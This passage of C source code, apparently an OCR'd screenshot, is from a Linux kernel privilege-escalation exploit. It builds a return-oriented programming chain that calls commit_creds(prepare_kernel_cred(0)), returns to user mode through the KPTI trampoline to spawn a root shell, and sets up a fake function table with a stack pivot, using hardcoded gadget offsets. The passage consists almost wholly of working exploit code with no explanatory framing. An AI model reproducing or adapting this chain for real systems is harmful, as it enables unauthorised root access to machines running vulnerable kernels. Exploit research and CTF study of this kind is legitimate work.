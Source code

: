 ```c
        return NULL;
    }

    return memdump;
}

void build_rop(char *buf)
{
    uint64_t *rop = (uint64_t *)&buf[0x0];
    int k = 0;

    /* commit_creds(prepare_kernel_cred(0)) */
    rop[k++] = kernel_base + 0x15e8; // pop rdi ; ret
    rop[k++] = 0x0;
    rop[k++] = kernel_base + 0x8a800; // prepare_kernel_cred
    rop[k++] = kernel_base + 0x49fb8; // pop rdx ; ret
    rop[k++] = 0x8;
    rop[k++] = kernel_base + 0xa6b081; // cmp rdx, 8 ; jne 0xffffffff81a6b05e ; ret
    rop[k++] = kernel_base + 0x3dfdb4; // mov rdi, rax ; jne 0xffffffff813dfda1 ; xor eax, eax ; ret
    rop[k++] = kernel_base + 0x8a3c0; // commit_creds

    /* kpti trampoline */
    rop[k++] = kernel_base + 0xc00a45; // swapgs_restore_regs_and_return_to_usermode + 22
    rop[k++] = 0x0; // rax
    rop[k++] = 0x0; // rdi
    
    rop[k++] = (unsigned long)&getRootShell;
    rop[k++] = (unsigned long)usr_cs;
    rop[k++] = (unsigned long)usr_rflags;
    rop[k++] = (unsigned long)usr_sp;
    rop[k++] = (unsigned long)usr_ss;

    uint64_t *func_table = (uint64_t *)&buf[0x100];
    for (size_t i = 0; i < 12; i++)
    {
        if (i == 4)
        {
            *func_table++ = kernel_base + 0x1e; // ret;
            continue;
        }

        if (i == 5)
        {
            *func_table++ = kernel_base + 0x1e; // ret
            continue;
        }

        if (i == 6)
        {
            *func_table++ = kernel_base + 0x1e; // ret
            continue;
        }

        *func_table++ = 0xdeadbeefdeadbe00 + i;
    }

    *func_table = pivot;
}

void pin_cpu(long cpu_id)
{
    cpu_set_t mask;
```